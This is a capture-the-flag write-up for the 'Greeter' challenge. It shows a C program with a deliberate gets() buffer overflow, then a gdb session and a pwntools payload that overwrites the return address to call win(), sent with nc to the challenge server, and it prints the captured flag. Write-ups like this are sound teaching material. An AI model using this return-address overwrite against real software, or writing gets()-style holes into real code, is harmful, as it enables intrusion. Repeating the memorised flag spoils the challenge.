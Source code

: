 # Greeter

## Task

File: greeter, greeter.c

## Solution

```c
#include <stdio.h>
#include <stdlib.h>

void win() {
	puts("congrats! here's your flag:");
	char flagbuf[64];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL) {
		puts("flag file not found!");
		exit(1);
	}
	fgets(flagbuf, 64, f);
	fputs(flagbuf, stdout);
	fclose(f);
}

int main() {
	/* disable stream buffering */
	setvbuf(stdin,  NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	char name[64];

	puts("What's your name?");
	gets(name);
	printf("Why hello there %s!\n", name);

	return 0;
}
```

We have a buffer of 64 bytes. So we need to overwrite 64 + 8 (the rbp) to reach the rsp, then we can add the address of the win function to call it.

The actual offset (8) can be determined by using a pattern long enough to definitely reach it. You will get a SIGSEGV with the chars that overflowed the rsp and can then find the offset.

The address of the win function can be found using `info functions win`. There are lots of easy to find and understand resources about basic buffer overflows.

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : FULL
gdb-peda$ r < <(python2 -c 'from pwn import p64;print("A"*72 + p64(0x401220))')
Starting program: greeter < <(python2 -c 'from pwn import p64;print("A"*72 + p64(0x401220))')
What's your name?
Why hello there AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA @!
congrats! here's your flag:
flag file not found!
```

```bash
$ python2 -c 'from pwn import p64;print("A"*72 + p64(0x401220))' | nc challenges.ctfd.io 30249
What's your name?
Why hello there AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA @!
congrats! here's your flag:
nactf{n4v4r_us3_g3ts_5vlrDKJufaUOd8Ur}
```
